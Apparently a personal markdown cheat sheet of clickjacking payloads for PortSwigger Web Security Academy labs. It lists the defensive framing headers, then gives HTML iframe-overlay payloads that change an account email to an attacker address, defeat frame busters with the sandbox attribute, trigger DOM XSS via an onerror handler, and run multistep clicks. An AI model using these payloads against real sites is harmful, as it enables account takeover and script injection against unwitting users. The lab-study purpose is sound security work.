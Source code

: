 # Clickjacking

## Will not work if can se these **headers**:

### X-Frame-Options:

		**DENY**: Prevents the site from being embedded in any iframe.
		**SAMEORIGIN**: Allows embedding only if the parent page is from the same origin.
		**ALLOW-FROM <URL>**: (Less common, partially deprecated) Allows embedding only from a specific origin.

### Content-Security-Policy (CSP):

		**frame-ancestors 'none'**: Completely blocks framing of the page.
		**frame-ancestors 'self'**: Only allows embedding from the same origin.
		**frame-ancestors <URL>**: Allows embedding only from specified sources.
  
### Example:

``
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none';
``

## Basic:
```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

## Basic clickjacking with CSRF token protection

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

## Clickjacking with a frame buster script

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. 
An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 
When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:
`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click.

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
	div {
		position:absolute;
		top:610px;
		left:80px;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep clickjacking

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:330px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:330px;
		left:50px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
